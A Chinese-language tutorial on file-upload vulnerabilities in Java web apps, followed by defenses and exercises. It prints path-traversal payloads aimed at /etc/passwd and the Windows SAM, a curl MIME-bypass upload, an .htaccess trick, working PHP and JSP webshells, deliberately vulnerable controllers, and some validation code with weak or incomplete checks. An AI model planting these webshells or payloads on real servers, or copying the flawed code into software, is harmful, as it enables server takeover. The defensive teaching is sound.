


2019 年，一个名为 "TrickBot" 的银行木马开始利用一种新策略传播：它不是直接通过邮件附件传播，而是引诱用户到一个看似正常的网站，上传「合法文件」，然后下载被植入木马的版本。

这揭示了一个令人不安的事实：**文件上传功能是 Web 应用中最危险的入口之一**。一个看似无害的「上传头像」功能，可能成为攻击者的突破口——上传包含恶意代码的文件，执行任意命令，甚至控制整个服务器。

## 一、文件上传漏洞的危害

### 1.1 攻击链



### 1.2 典型危害

| 危害类型 | 说明 | 严重性 |
|----------|------|--------|
| WebShell 上传 | 上传可执行脚本，执行任意命令 | 极高 |
| 路径遍历 | 写入任意文件，覆盖系统文件 | 极高 |
| 恶意软件传播 | 上传恶意文件供他人下载 | 高 |
| XSS 攻击 | 上传 HTML/JS 文件进行存储型 XSS | 中 |
| 拒绝服务 | 上传超大文件消耗存储 | 中 |

## 二、攻击向量

### 2.1 路径遍历

攻击者通过构造特殊的文件名，将文件写入预期目录之外的位置。

```java title="危险的路径处理"
@RestController
public class FileUploadController {
    
    /**
     * 危险：直接使用用户输入的路径
     */
    @PostMapping("/upload")
    public ResponseEntity<String> upload(
            @RequestParam("file") MultipartFile file,
            @RequestParam("path") String path) {
        
        // 危险：用户控制了路径参数
        Path targetPath = Paths.get("/var/uploads", path, file.getOriginalFilename());
        
        // 攻击者可以传入: "../../../etc/cron.d/malicious"
        // 文件会被写入: /var/uploads/../../../etc/cron.d/malicious = /etc/cron.d/malicious
        
        file.transferTo(targetPath);
        return ResponseEntity.ok("Uploaded");
    }
}
```

```bash title="路径遍历攻击示例"
# 常见的路径遍历payload

# Linux
../../../etc/passwd
..%2F..%2F..%2Fetc%2Fpasswd
....//....//....//etc/passwd

# Windows
..\..\..\windows\system32\config\sam
..%5C..%5C..%5Cwindows\system32\config\sam

# URL 编码
..%252F..%252F..%252Fetc%252Fpasswd
```

### 2.2 MIME 类型绕过

服务器通常通过检查文件扩展名或 MIME 类型来验证上传的文件，但这些检查都可以被绕过。

```java title="只检查 MIME 类型的危险代码"
@PostMapping("/upload")
public ResponseEntity<String> upload(@RequestParam("file") MultipartFile file) {
    // 只检查 MIME 类型
    if (file.getContentType().equals("image/jpeg")) {
        Path target = Paths.get("/var/uploads", file.getOriginalFilename());
        file.transferTo(target);
        return ResponseEntity.ok("Uploaded");
    }
    return ResponseEntity.badRequest().body("Only JPEG allowed");
}
```

```bash title="MIME 绕过示例"
# 攻击者使用 curl 模拟上传
# 正常情况下浏览器会发送正确的 Content-Type
# 但攻击者可以手动指定

curl -X POST https://target.com/upload \
  -F "file=@malicious.php;type=image/jpeg"

# 服务器看到 type=image/jpeg，误以为是图片
# 但实际文件是 PHP 脚本
```

### 2.3 扩展名绕过

| 绕过技术 | 示例 | 说明 |
|----------|------|------|
| 大小写混淆 | `.PhP`, `.pHP` | Windows 不区分大小写 |
| 双重扩展名 | `avatar.jpg.php` | Apache 可能会解析后者 |
| 空字节注入 | `avatar.jpg%00.php` | %00 截断，后续被忽略 |
| 特殊字符 | `avatar.php.` | Windows 会忽略末尾点 |
| .htaccess 上传 | `.htaccess` | 配置 Apache 执行特定文件 |

```bash title="Apache 配置文件上传"
# 攻击者上传 .htaccess 文件
# 内容: 指定用 PHP 解析所有 .xyz 文件

<FilesMatch "xyz">
    SetHandler application/x-httpd-php
</FilesMatch>

# 然后上传 shell.xyz 即可执行 PHP
```

### 2.4 WebShell 上传

WebShell 是攻击者在被入侵服务器上留下的后门程序，用于持久化控制。

```php title="简单 PHP WebShell"
<?php
// 基础版：执行命令
system($_GET['cmd']);
?>

<?php
// 进阶版：文件管理器 + 命令执行
if(isset($_GET['f'])){
    echo '<pre>'.file_get_contents($_GET['f']).'</pre>';
}
if(isset($_POST['cmd'])){
    echo '<pre>'.shell_exec($_POST['cmd']).'</pre>';
}
?>
```

```java title="JSP WebShell"
<%@ page import="java.io.*" %>
<%@ page contentType="text/html;charset=UTF-8" %>
<%
String cmd = request.getParameter("cmd");
Process p = Runtime.getRuntime().exec(cmd);
InputStream in = p.getInputStream();
BufferedReader reader = new BufferedReader(new InputStreamReader(in));
String line;
while((line = reader.readLine()) != null) {
    out.println(line);
}
%>
```

## 三、防护措施

### 3.1 文件类型验证

```java title="多层文件验证"
@Service
public class FileUploadValidator {
    
    // 允许的文件扩展名
    private static final Set<String> ALLOWED_EXTENSIONS = Set.of(
        "jpg", "jpeg", "png", "gif", "webp"
    );
    
    // 允许的 MIME 类型
    private static final Set<String> ALLOWED_MIME_TYPES = Set.of(
        "image/jpeg",
        "image/png",
        "image/gif",
        "image/webp"
    );
    
    public ValidationResult validate(MultipartFile file) {
        // 1. 检查文件是否为空
        if (file.isEmpty()) {
            return ValidationResult.failure("File is empty");
        }
        
        // 2. 检查文件大小
        if (file.getSize() > MAX_FILE_SIZE) {
            return ValidationResult.failure("File too large");
        }
        
        // 3. 检查扩展名
        String originalFilename = file.getOriginalFilename();
        String extension = getExtension(originalFilename).toLowerCase();
        if (!ALLOWED_EXTENSIONS.contains(extension)) {
            return ValidationResult.failure("Extension not allowed");
        }
        
        // 4. 检查 MIME 类型
        String contentType = file.getContentType();
        if (!ALLOWED_MIME_TYPES.contains(contentType)) {
            return ValidationResult.failure("MIME type not allowed");
        }
        
        // 5. 检查文件头（魔数）
        if (!isValidImageHeader(file)) {
            return ValidationResult.failure("Invalid file content");
        }
        
        // 6. 检查文件名安全性
        if (!isValidFilename(originalFilename)) {
            return ValidationResult.failure("Invalid filename");
        }
        
        return ValidationResult.success();
    }
    
    private boolean isValidImageHeader(MultipartFile file) {
        try {
            byte[] header = new byte[8];
            InputStream inputStream = file.getInputStream();
            inputStream.read(header);
            
            // JPEG: FF D8 FF
            if (header[0] == (byte)0xFF && 
                header[1] == (byte)0xD8 && 
                header[2] == (byte)0xFF) {
                return true;
            }
            
            // PNG: 89 50 4E 47
            if (header[0] == (byte)0x89 && 
                header[1] == 0x50) {
                return true;
            }
            
            // GIF: 47 49 46 38
            if (header[0] == 0x47) {
                return true;
            }
            
            return false;
        } catch (IOException e) {
            return false;
        }
    }
    
    private boolean isValidFilename(String filename) {
        // 检查路径遍历
        if (filename.contains("..") || 
            filename.contains("/") || 
            filename.contains("\\")) {
            return false;
        }
        
        // 检查空字节
        if (filename.contains("\0")) {
            return false;
        }
        
        // 检查非法字符
        if (!filename.matches("^[a-zA-Z0-9._-]+$")) {
            return false;
        }
        
        return true;
    }
}
```

### 3.2 安全文件名处理

```java title="安全的文件存储"
@Service
public class SecureFileStorage {
    
    private final Path uploadDir;
    
    public SecureFileStorage(@Value("${upload.directory}") String uploadDir) {
        this.uploadDir = Paths.get(uploadDir);
        // 确保上传目录存在
        if (!Files.exists(this.uploadDir)) {
            Files.createDirectories(this.uploadDir);
        }
    }
    
    public Path store(MultipartFile file) throws IOException {
        // 1. 生成安全的文件名
        String originalFilename = file.getOriginalFilename();
        String safeFilename = generateSecureFilename(originalFilename);
        
        // 2. 创建带日期的子目录
        LocalDate today = LocalDate.now();
        Path dateDir = uploadDir.resolve(
            today.getYear() + "/" + 
            String.format("%02d", today.getMonthValue())
        );
        
        // 3. 确保目录存在
        Files.createDirectories(dateDir);
        
        // 4. 完整路径
        Path targetPath = dateDir.resolve(safeFilename);
        
        // 5. 使用原子操作存储文件
        file.transferTo(targetPath);
        
        // 6. 验证存储后的文件
        verifyStoredFile(targetPath);
        
        return targetPath;
    }
    
    private String generateSecureFilename(String originalFilename) {
        // 保留原始扩展名
        String extension = getExtension(originalFilename);
        String baseName = UUID.randomUUID().toString();
        
        // 使用 UUID 作为文件名，扩展名单独存储
        return baseName + "." + extension.toLowerCase();
    }
    
    private void verifyStoredFile(Path filePath) throws IOException {
        // 验证文件确实是我们存储的那个
        // 防止竞争条件
        
        // 检查文件大小合理
        long size = Files.size(filePath);
        if (size > MAX_FILE_SIZE) {
            Files.delete(filePath);
            throw new IOException("File too large after storage");
        }
    }
}
```

### 3.3 存储隔离

```yaml title="存储隔离配置"
# Spring Boot application.yml
spring:
  servlet:
    multipart:
      enabled: true
      max-file-size: 5MB
      max-request-size: 10MB
      
# 自定义配置
upload:
  directory: /var/app/uploads
  # 上传目录不可执行
  # 需要在文件系统层面设置 noexec 属性
  # mount -o noexec /var/app/uploads
  
  # 静态资源通过专门的服务器提供
  cdn-url: https://cdn.example.com
```

```java title="文件访问控制器"
@Controller
public class FileAccessController {
    
    @Value("${upload.directory}")
    private Path uploadDirectory;
    
    @Value("${upload.cdn-url}")
    private String cdnUrl;
    
    /**
     * 重定向到 CDN，而非直接返回文件
     * 这样可以：
     * 1. 隐藏真实文件路径
     * 2. 利用 CDN 的安全检查
     * 3. 减轻应用服务器压力
     */
    @GetMapping("/files/{filename}")
    public ResponseEntity<Void> getFile(@PathVariable String filename) {
        // 验证文件名格式
        if (!isValidFilename(filename)) {
            return ResponseEntity.badRequest().build();
        }
        
        // 构建 CDN URL 并重定向
        String cdnUrl = this.cdnUrl + "/" + filename;
        return ResponseEntity.status(HttpStatus.FOUND)
            .location(URI.create(cdnUrl))
            .build();
    }
    
    /**
     * 如果必须直接提供文件，使用流式响应
     */
    @GetMapping("/download/{filename}")
    public ResponseEntity<Resource> download(
            @PathVariable String filename,
            HttpServletRequest request) {
        
        // 验证文件名
        if (!isValidFilename(filename)) {
            return ResponseEntity.badRequest().build();
        }
        
        Path filePath = uploadDirectory.resolve(filename);
        
        if (!Files.exists(filePath)) {
            return ResponseEntity.notFound().build();
        }
        
        try {
            Resource resource = new UrlResource(filePath.toUri());
            
            // 设置安全的响应头
            return ResponseEntity.ok()
                .contentType(MediaType.APPLICATION_OCTET_STREAM)
                .header(HttpHeaders.CONTENT_DISPOSITION, 
                    "attachment; filename=\"" + filename + "\"")
                .header("X-Content-Type-Options", "nosniff")
                .body(resource);
        } catch (MalformedURLException e) {
            return ResponseEntity.internalServerError().build();
        }
    }
}
```

### 3.4 上传目录不可执行

```bash title="文件系统层安全配置"
# Linux: 挂载点设置 noexec
# /etc/fstab
/dev/sda1 /var/uploads ext4 defaults,noexec,nosuid,nodev 0 0

# 或者使用 chattr 命令
chattr +i /var/uploads    # 不可变属性
chattr +a /var/uploads    # 只可追加

# Docker: 容器中禁止执行
docker run -v /host/uploads:/var/uploads:noexec myapp
```

### 3.5 图片二次渲染防护

攻击者可能尝试在图片中嵌入代码，通过服务器的图片处理功能执行。

```java title="图片二次渲染验证"
@Service
public class ImageProcessingService {
    
    /**
     * 通过重新编码图片来去除可能的恶意代码
     */
    public void sanitizeAndStore(MultipartFile file, Path targetPath) 
            throws IOException {
        
        try {
            BufferedImage image = ImageIO.read(file.getInputStream());
            
            if (image == null) {
                throw new IOException("Not a valid image");
            }
            
            // 获取原始扩展名
            String extension = getExtension(file.getOriginalFilename());
            String mimeType = file.getContentType();
            
            // 重新编码，生成全新的图片
            ImageIO.write(image, extension.substring(1), targetPath.toFile());
            
        } catch (IOException e) {
            throw new IOException("Failed to process image", e);
        }
    }
}
```

```java title="使用 ImageIO 安全处理"
import javax.imageio.ImageIO;
import javax.imageio.ImageReader;
import javax.imageio.ImageWriter;
import javax.imageio.stream.ImageInputStream;

public class SafeImageProcessor {
    
    public void processSecure(MultipartFile file, Path target) 
            throws IOException {
        
        // 使用 ImageReader/ImageWriter 流式处理
        ImageInputStream iis = ImageIO.createImageInputStream(
            file.getInputStream());
        
        ImageReader reader = ImageIO.getImageReaders(iis).next();
        reader.setInput(iis);
        
        // 验证是真正的图片
        BufferedImage image = reader.read(0);
        if (image == null) {
            throw new SecurityException("Invalid image");
        }
        
        // 获取对应的 Writer
        String format = getFormat(reader.getFormatName());
        ImageWriter writer = ImageIO.getImageWritersByFormatName(format)
            .next();
        
        // 写入新文件（重新编码）
        ImageOutputStream ios = ImageIO.createImageOutputStream(
            target.toFile());
        writer.setOutput(ios);
        
        writer.write(image);
        
        // 清理资源
        reader.dispose();
        writer.dispose();
        iis.close();
        ios.close();
    }
}
```

## 四、第三方文件扫描

### 4.1 ClamAV 集成

```java title="使用 ClamAV 扫描上传文件"
@Service
public class ClamAvScanner {
    
    private final ClamDaemonClient client;
    
    public ScanResult scan(Path filePath) throws IOException {
        try {
            ScanResult result = client.scan(filePath.toFile());
            
            if (result.isClean()) {
                return ScanResult.CLEAN;
            } else if (result.isVirus()) {
                return ScanResult.builder()
                    .status(ScanResult.Status.INFECTED)
                    .threatName(result.getVirusName())
                    .build();
            } else {
                return ScanResult.UNKNOWN;
            }
        } catch (Exception e) {
            // 扫描失败时的策略：拒绝上传
            throw new SecurityException("Scan failed", e);
        }
    }
}

@Service
public class SecureUploadService {
    
    private final FileUploadValidator validator;
    private final SecureFileStorage storage;
    private final ClamAvScanner scanner;
    
    public UploadResult upload(MultipartFile file) {
        // 1. 验证文件
        ValidationResult validation = validator.validate(file);
        if (!validation.isValid()) {
            return UploadResult.failure(validation.getError());
        }
        
        // 2. 临时存储
        Path tempFile = storage.storeToTemp(file);
        
        try {
            // 3. 恶意软件扫描
            ScanResult scan = scanner.scan(tempFile);
            if (scan.isInfected()) {
                Files.delete(tempFile);
                return UploadResult.failure(
                    "File contains malware: " + scan.getThreatName());
            }
            
            // 4. 移动到最终位置
            Path finalPath = storage.moveToFinal(tempFile);
            return UploadResult.success(finalPath);
            
        } catch (Exception e) {
            // 清理临时文件
            Files.deleteIfExists(tempFile);
            throw e;
        }
    }
}
```

### 4.2 异步扫描架构



:::tip 关键洞察
文件上传漏洞的防护核心是**纵深防御**：
1. 客户端验证不可信，必须有服务端验证
2. MIME 类型和扩展名都可以伪造，必须检查文件内容
3. 上传目录必须不可执行
4. 文件名必须随机化，防止覆盖和路径遍历
5. 上传后必须进行恶意软件扫描
:::

## 思考题

**问题 1**：某公司使用 Spring Boot 构建了一个文件上传服务，代码中做了以下检查：检查扩展名是否为 `.jpg`、检查 MIME 类型是否为 `image/jpeg`、限制文件大小为 5MB。请分析这段代码是否安全，如果存在漏洞，请说明攻击方式并提供修复方案。

<details>
<summary>参考答案</summary>

**漏洞分析**：

**漏洞 1：扩展名绕过**
- 代码只检查扩展名是否为 `.jpg`
- Apache/Nginx 可能将 `.jpg.php` 解析为 PHP
- Windows 不区分大小写，`.JPG` 也可能被接受

**漏洞 2：MIME 类型绕过**
- MIME 类型来自 HTTP 请求头，可被攻击者伪造
- 攻击者可以上传 PHP 文件，但 Content-Type 设为 `image/jpeg`

**漏洞 3：缺少文件内容检查**
- 没有检查 JPEG 文件头（魔数）
- 可能上传真正的 JPEG 文件，但在 EXIF 数据中嵌入恶意代码

**漏洞 4：存储路径问题**
- 如果没有随机化文件名，可能存在路径遍历风险
- 如果上传目录可执行，JPEG 文件也可能被解析为 PHP

**修复方案**：

```java
@Service
public class SecureFileUploadService {
    
    private static final Set<String> ALLOWED_EXTENSIONS = Set.of("jpg", "jpeg");
    private static final Set<String> ALLOWED_MIME = Set.of("image/jpeg");
    private static final long MAX_SIZE = 5 * 1024 * 1024;
    
    public void upload(MultipartFile file) {
        // 1. 验证扩展名
        String originalFilename = file.getOriginalFilename();
        String ext = getExtension(originalFilename).toLowerCase();
        if (!ALLOWED_EXTENSIONS.contains(ext)) {
            throw new SecurityException("Extension not allowed");
        }
        
        // 2. 验证 MIME 类型
        if (!ALLOWED_MIME.contains(file.getContentType())) {
            throw new SecurityException("MIME type not allowed");
        }
        
        // 3. 验证文件大小
        if (file.getSize() > MAX_SIZE) {
            throw new SecurityException("File too large");
        }
        
        // 4. 验证文件头（魔数）
        if (!isValidJpegHeader(file)) {
            throw new SecurityException("Invalid JPEG header");
        }
        
        // 5. 验证文件名（防路径遍历）
        if (!isValidFilename(originalFilename)) {
            throw new SecurityException("Invalid filename");
        }
        
        // 6. 存储时随机化文件名
        String storedFilename = UUID.randomUUID() + "." + ext;
        
        // 7. 确保上传目录不可执行（在部署层面配置）
    }
    
    private boolean isValidJpegHeader(MultipartFile file) throws IOException {
        byte[] header = new byte[3];
        file.getInputStream().read(header);
        // JPEG 文件头：FF D8 FF
        return header[0] == (byte)0xFF && 
               header[1] == (byte)0xD8 && 
               header[2] == (byte)0xFF;
    }
    
    private boolean isValidFilename(String filename) {
        // 防止路径遍历和空字节
        return !filename.contains("..") && 
               !filename.contains("/") && 
               !filename.contains("\\") &&
               !filename.contains("\0");
    }
}
```

**额外建议**：
- 上传目录设置 noexec 属性
- 使用 CDN 提供文件访问
- 启用 ClamAV 扫描
</details>

**问题 2**：某公司需要允许用户上传文档（PDF、Word）进行在线预览。考虑到这些文档格式的复杂性，上传后会在服务器端解析为 HTML 进行展示。请分析这种场景下可能存在的安全风险，以及如何进行防护。

<details>
<summary>参考答案</summary>

**安全风险分析**：

**风险 1：XXE 攻击**
- Word 和 PDF 都支持 XML 结构
- 攻击者可能在文档中嵌入 XXE 实体
- 解析时可能导致文件读取或 SSRF

**风险 2：恶意代码执行**
- 某些文档格式支持宏（VBA）
- 宏可能在预览时被执行
- 旧版 Office 漏洞

**风险 3：拒绝服务**
- 畸形文档导致解析器崩溃
- 超大文档消耗内存
- 递归结构导致解析超时

**风险 4：存储型 XSS**
- 转换后的 HTML 可能包含恶意脚本
- 如果 HTML 直接返回，可能导致 XSS

**防护方案**：

**架构层面**：
```
用户上传 → 隔离沙箱 → 安全转换 → 清理 HTML → CDN 分发
```

**实现方案**：

```java
@Service
public class SafeDocumentConverter {
    
    private final ExecutorService converterPool;
    
    public SafeDocumentConverter() {
        // 限制并发转换数量
        this.converterPool = Executors.newFixedThreadPool(
            2,
            new ThreadFactoryBuilder()
                .setNameFormat("doc-converter-%d")
                .build()
        );
    }
    
    public ConversionResult convert(MultipartFile file, String userId) {
        // 1. 前置验证
        validateDocument(file);
        
        // 2. 隔离环境转换
        return runInSandbox(() -> doConvert(file));
    }
    
    private void validateDocument(MultipartFile file) {
        // 检查扩展名
        String ext = getExtension(file.getOriginalFilename())
            .toLowerCase();
        if (!Set.of("pdf", "docx", "pptx").contains(ext)) {
            throw new SecurityException("Not allowed");
        }
        
        // 检查 MIME 类型
        String mime = file.getContentType();
        
        // 检查文件大小
        if (file.getSize() > 50 * 1024 * 1024) {
            throw new SecurityException("File too large");
        }
        
        // 检查文件头（魔数）
        validateMagicBytes(file);
    }
    
    private void validateMagicBytes(MultipartFile file) throws IOException {
        byte[] header = new byte[8];
        file.getInputStream().read(header);
        
        // PDF: 25 50 44 46
        // DOCX/XLSX/PPTX: 50 4B (ZIP)
    }
    
    private ConversionResult doConvert(MultipartFile file) {
        // 使用专门的转换服务（如 LibreOffice in Docker）
        // 运行在隔离容器中
    }
    
    private void runInSandbox(Callable<T> task) {
        // 在有限资源下执行
        // 超时控制
        // 内存限制
    }
}
```

**HTML 清理**：
- 使用 HTML Sanitizer 清理转换后的 HTML
- 移除 `<script>`、`<iframe>`、事件处理器等
- 只保留安全的标签和属性

**部署建议**：
- 文档转换服务运行在独立容器中
- 容器网络隔离
- 定期更新转换软件修补漏洞
</details>
